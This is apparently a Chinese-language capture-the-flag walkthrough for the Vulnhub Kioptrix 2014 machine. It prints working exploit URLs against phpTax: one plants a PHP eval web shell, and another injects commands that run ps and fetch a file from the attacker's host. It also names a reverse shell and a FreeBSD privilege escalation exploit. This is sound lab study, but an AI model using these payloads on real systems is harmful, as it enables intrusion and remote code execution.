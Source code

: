 ```yaml
---
title: Vulnhub 62 KIOPTRIX-2014 
date: 2014-4-6
---
```


考点： user-agent,rce,lfi

靶机链接：<https://www.vulnhub.com/entry/kioptrix-2014-5,62/>
<!--more-->

## 环境配置

| 名称         | IP        |
| ------------ | --------- |
| Kali Linux   | 192.168.88.135 |
| KIOPTRIX: 2014 (#5) | 192.168.88.148 |

## 初步打点

### 端口扫描

```bash
$ export rip=192.168.88.148
$ sudo nmap -v -A -p- $rip
PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
| http-methods: 
|_  Supported Methods: POST
8080/tcp open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
|_http-title: 403 Forbidden
```

### WEB测试

#### 80

![](https://www.vulnhub.cn/walkthrough/62/1.webp)



![](https://www.vulnhub.cn/walkthrough/62/2.webp)

##### pChart2.1.3

参考 [Exploiting pChart 2.1.3 (Directory traversal & XSS) ](https://vk9-sec.com/exploiting-pchart-2-1-3-directory-traversal-xss/)

任意文件读取

![](https://www.vulnhub.cn/walkthrough/62/3.webp)

读取apache配置

![](https://www.vulnhub.cn/walkthrough/62/4.webp)

#### 8080

firefox添加扩展，自定义user-agent

![](https://www.vulnhub.cn/walkthrough/62/5.webp)

![](https://www.vulnhub.cn/walkthrough/62/6.webp)

发现phptax

## 获得权限

### 思路一

参考 [PhpTax 0.8 - File Manipulation 'newvalue' / Remote Code Execution](https://www.exploit-db.com/exploits/25849)

```
http://192.168.88.148:8080/phptax/index.php?field=123.php&newvalue=<?php eval($_REQUEST[123])?>
```

![](https://www.vulnhub.cn/walkthrough/62/10.webp)

![](https://www.vulnhub.cn/walkthrough/62/11.webp)

### 思路二

参考 [phptax 0.8 - Remote Code Execution](https://www.exploit-db.com/exploits/21665)

```http
http://192.168.88.148:8080/phptax/index.php?pfilez=1040pg1.tob;%20ps%20-aux%3E/tmp/1;&pdf=make
```

然后利用pChart2.1.3的任意文件读取查看执行结果

![](https://www.vulnhub.cn/walkthrough/62/7.webp)

尝试nc反弹失败

![](https://www.vulnhub.cn/walkthrough/62/8.webp)

![](https://www.vulnhub.cn/walkthrough/62/9.webp)

nc是残版

尝试wget、curl均执行失败，使用[fetch](https://man.freebsd.org/cgi/man.cgi?fetch)下载文件成功

```http
http://192.168.88.148:8080/phptax/index.php?pfilez=1040pg1.tob;%20%20fetch%20http://192.168.88.135/cmd.php%3E%20/tmp/1;&pdf=make
```

![](https://www.vulnhub.cn/walkthrough/62/12.webp)

## 提权

上传phpspy.php

![](https://www.vulnhub.cn/walkthrough/62/13.webp)

反弹shell

参考 [FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation](https://www.exploit-db.com/exploits/26368)

![](https://www.vulnhub.cn/walkthrough/62/14.webp)
